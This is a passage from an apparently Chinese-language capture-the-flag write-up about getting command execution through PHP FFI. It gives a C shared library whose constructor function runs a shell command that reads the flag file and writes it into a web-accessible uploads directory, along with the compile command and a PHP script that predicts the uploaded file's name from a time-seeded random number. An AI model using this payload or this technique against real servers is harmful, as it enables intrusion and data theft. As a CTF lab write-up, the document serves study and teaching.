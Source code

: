   ```php
   public static FFI::cdef ([ string $code = "" [, string $lib ]] ) : FFI
   Creates a new FFI object.
   
   Parameters 
   code
   A string containing a sequence of declarations in regular C language (types, structures, functions, variables, etc). Actually, this string may be copy-pasted from C header files.
   
   lib
   The name of a shared library file, to be loaded and linked with the definitions.
   动态库文件名，它会被加载到内存中去
   ```

   被加载，就有被执行的可能，对吧。

   恰巧[\_\_attribute\_\_](https://www.jianshu.com/p/e2dfccc32c80) 它就提供了一个函数属性叫(constructor/destructor),在主函数开始之前/结束之后执行。所以就算没有主函数，他们也会被执行。emmmmmmmmmmmm，好像很有道理的样子。
   
   然后这里也没有回显，取代做法有很多种，比如写入/uploads/firmware目录下，或者用curl把信息带到自己的服务器或者xss平台上。
   
   放payload
   
   ```c
   #include <stdio.h>
   #include <string.h>
   
   char _version[0x130];
   char * version = &_version;
   
   __attribute__ ((constructor)) void fun(){
       memset(version,0,0x130);
       FILE * fp=popen("/usr/bin/tac /flag > /var/www/html/uploads/firmware/wulasite.txt", "r");
       if (fp==NULL) return;
       fread(version, 1, 0x100, fp);
       pclose(fp);
   }
   ```
   
   然后使用
   
   > gcc -shared -fPIC -o test.so test.c 
   
   生成.so文件，然后上传。然后从响应头得到脚本运行时间，然后破解
   
   ```php
   <?php
   
       echo time();
       echo '<br>';
       $ip = "你的公网IP";
       $time = strtotime('Thu, 08 Aug 2019 13:57:11 GMT');
       mt_srand($time);
       echo md5(mt_rand().$ip);
       echo '<br>';
       echo time();
   ```
   